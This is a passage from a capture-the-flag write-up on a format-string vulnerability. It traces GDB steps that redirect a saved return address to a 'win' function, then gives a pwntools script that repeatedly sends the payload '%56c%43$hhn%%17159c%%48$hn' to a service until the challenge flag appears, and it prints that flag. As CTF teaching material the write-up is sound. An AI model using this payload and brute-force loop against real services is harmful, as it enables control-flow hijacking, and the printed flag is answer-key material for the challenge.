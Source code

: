 What we see now in GDB:

*   As expected, the `0x28` has changed - it's `0x38` (`56`) now.
*   As expected, the `0x433f` has changed - it's `0x233f`.<br>Minus 56 characters above, that's `8967` characters to be emitted by second format string.
*   So, a format string that ***would have exploited*** this combo is: `%56c%43$hhn%%8967c%%48$hn`
*   Let's make it so! `set {char [26]} $rsi = "%56c%43$hhn%%8967c%%48$hn"`
*   `si` to step over `sprintf()`. Result:
    *   The `2a:0150` pointer changed and points to retaddr on stack now!
    *   `b2` is: `<--- 56 spaces --->%8967c%48$hn`
*   `si` few more times to step over `printf()`. Result:
    *   We got a bunch of spaces in the telnet session
    *   The `23:0118` retaddr changed to `win`

That's all we needed &#128578; Now we just have to try this enough times.

# Exploit

```python
import re
import pwn

pwn.context.update(log_level='warning')
for n in range(9999999):
    print(n, "\r", end="")  # counter
    io = pwn.remote('127.0.0.1', 1337)
    io.sendline(b'%56c%43$hhn%%17159c%%48$hn')
    response = str(io.recvall())
    if 'cyberskills23' in response:
        r = re.compile(r'cyberskills23{[^}]*}')
        print(r.findall(response)[0])
        break
    io.close()
```

This works locally - and remotely, too!

---

## `cyberskills23{format_format_format_what_where_how_???}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
